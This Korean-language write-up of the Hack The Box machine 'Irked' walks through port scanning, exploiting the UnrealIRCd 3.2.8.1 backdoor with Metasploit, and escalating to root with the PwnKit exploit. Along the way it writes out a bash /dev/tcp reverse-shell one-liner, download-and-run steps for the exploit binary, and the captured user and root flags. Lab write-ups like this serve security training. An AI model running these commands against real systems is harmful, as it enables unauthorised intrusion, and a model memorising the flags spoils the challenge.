

# Irked
## target: 10.129.215.108

## 정보수집
대상 호스트의 열려있는 포트를 조사하기 위해 nmap을 사용하여 포트스캐닝을 진행
```bash
#빠르게 전채 포트 스캔
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
52804/tcp open  unknown
65534/tcp open  unknown

#열려있는 포트 서비스 버전 확인
nmap -sV -sC -oA nmap/Irked $ip -p 22,80,111,6697,52804,65534

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42732/tcp6  status
|   100024  1          48250/udp   status
|   100024  1          48879/udp6  status
|_  100024  1          52804/tcp   status
6697/tcp  open  irc     UnrealIRCd
52804/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
```
- 22 OpenSSH 6.7p1  
- 80 Apache httpd 2.4.10  
- 111 rpcbind 2-4
- 6697,665534 irc UnrealIRCd
- 52804 status 1 (RPC #100024)
## 웹서버 조사
> http://10.129.215.108/ IRC is almost working! 이라는 글만 있다


> https://ko.wikipedia.org/wiki/IRC


### 웹 디렉토리 브루트 포싱
```bash
gobuster dir -u http://10.129.215.108/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

/index.html           (Status: 200) [Size: 72]
/manual               (Status: 301) [Size: 317] [--> http://10.129.215.108/manual/]
```
별다른 경로를 찾지 못했다.
웹페이지를 보면 irc 서비스가 운영중인걸로 보인다 irc연결 시도
```bash 

sudo apt install irssi
irssi

/CONNECT 10.129.215.108 6697

07:34 -!- Irssi: Connection to 10.129.215.108 established
07:34 !irked.htb *** Looking up your hostname...
07:34 !irked.htb *** Couldn't resolve your hostname; using your IP address instead
07:34 -!- Welcome to the ROXnet IRC Network root!root@10.10.14.74
07:34 -!- Your host is irked.htb, running version Unreal3.2.8.1
07:34 -!- This server was created Mon May 14 2018 at 13:12:50 EDT
07:34 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
07:34 -!- UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 
          KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 are supported by this server
07:34 -!- WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG 
          NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ are supported by this server
07:34 -!- EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP are supported by this server
07:34 -!- There are 1 users and 0 invisible on 1 servers
07:34 -!- I have 1 clients and 0 servers
07:34 -!- Current Local Users: 1  Max: 1
07:34 -!- Current Global Users: 1  Max: 1
07:34 -!- MOTD File is missing
07:34 -!- Mode change [+iwx] for user root
07:34 -!- You may not reregister

```

<u> 07:34 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj</u>  
Unreal3.2.8.1 사용중인것을 확인할수 있었다

## 취약점 진단
```bash
searchsploit Unreal 3.2.8.1
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)     
```
backdoor command execution 취약점이 존재하는 버전 사용중  
metasploit으로 취약점 공격 시도

## 취약점 공격격
```bash
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# msfconsole   
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.129.215.108
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 10.10.14.74
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.74:4444 -> 10.129.215.108:32923) at 2025-08-06 07:50:14 -0400

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)

```
리버스셸연결이 연결됐다 

## 권한상승

```bash
#완전한 셸을 위한 과정
#대상 호스트
bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'

#로컬 kali
nc -nlvp 9999
ircd@irked:~/Unreal3.2$python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ ^Z
zsh: suspended  nc -nlvp 9999
                                                                                                                            
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# stty raw -echo;fg     
[2]  - continued  nc -nlvp 9999

ircd@irked:~/Unreal3.2$ 

```
setuid 탐색
```bash
ircd@irked:/home/djmardov$ find / -perm -4000 -type f 2> /dev/null

/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
```

<u>/usr/bin/pkexec</u> 권한 상승 취약점 존재  
https://github.com/ly4k/PwnKit CVE-2021-4034 - Pkexec Local Privilege Escalation 

```bash
#공격자 kali
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit -O PwnKit
┌──(root㉿kali)-[~/Hack_The_Box/Irked]
└─# python3 -m http.server 7777   
#대상 호스트
ircd@irked:/tmp$ wget http://10.10.14.74:7777/PwnKit
ircd@irked:/tmp$ chmod +x PwnKit32
ircd@irked:/tmp$ ./PwnKit 

bash: ./PwnKit: cannot execute binary file: Exec format error
#호스트 버전에 맞지 않아 실패
ircd@irked:/tmp$ uname -a
Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux
# 32비트 운영체제

#32 비트운영체제에 맞는 exploit으로 시도
#공격자 kali
wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit32 -O PwnKit32
python3 -m http.server 7777   
#대상 호스트
ircd@irked:/tmp$ wget http://10.10.14.74:7777/PwnKit32
ircd@irked:/tmp$ chmod +x PwnKit32
ircd@irked:/tmp$ ./PwnKit32
root@irked:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(ircd)

root@irked:/tmp# cat /home/djmardov/user.txt 
0e0b63b83519b784c6f2a279716eb7ac

root@irked:/tmp# cat /root/root.txt 
389c2b788c7555fd92bd7a6a1e935080


```

